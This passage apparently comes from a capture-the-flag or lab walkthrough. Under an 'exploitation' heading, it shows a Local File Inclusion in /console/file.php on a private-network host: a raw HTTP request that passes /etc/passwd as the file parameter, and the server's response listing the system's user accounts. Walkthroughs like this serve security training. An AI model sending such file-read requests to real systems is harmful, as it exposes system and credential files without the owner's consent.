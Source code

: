 
# exploitation
## Local File Inclusion
Inside `/console` is a file named `file.php`. Guessing the parameter `file` reveals that is possible to read files from the remote system.

```http
GET /console/file.php?file=/etc/passwd HTTP/1.1
Host: 192.168.103.80
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.72 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

```http
HTTP/1.1 200 OK
Date: Wed, 11 Jan 2023 21:51:47 GMT
Server: Apache/2.4.29 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 1398
Connection: close
Content-Type: text/html; charset=UTF-8

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
uuidd:x:105:109::/run/uuidd:/usr/sbin/nologin
natraj:x:1000:1000:natraj,,,:/home/natraj:/bin/bash
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
mahakal:x:1001:1001:,,,:/home/mahakal:/bin/bash
```

